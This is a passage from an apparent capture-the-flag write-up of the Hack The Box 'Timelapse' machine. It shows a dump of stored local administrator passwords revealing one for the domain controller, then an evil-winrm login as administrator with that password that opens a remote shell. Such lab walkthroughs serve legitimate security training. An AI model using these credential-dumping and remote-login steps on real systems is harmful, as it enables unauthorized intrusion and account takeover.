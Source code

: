 ```bash
Expiration : 8/8/2022 5:39:07 AM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : z1.6.gh2MO947b}362/StY.6
Expiration : 8/8/2022 5:39:07 AM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA
```
We got the password. Let's try to connect to the box as `administrator` with the `password` using `evil-winrm`.

```bash
evil-winrm -i 10.10.11.152 -S -u administrator -p 'z1.6.gh2MO947b}362/StY.6'

Evil-WinRM shell v3.3

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
Now we are `administrator`. Get the `root` hash form TRX Desktop.
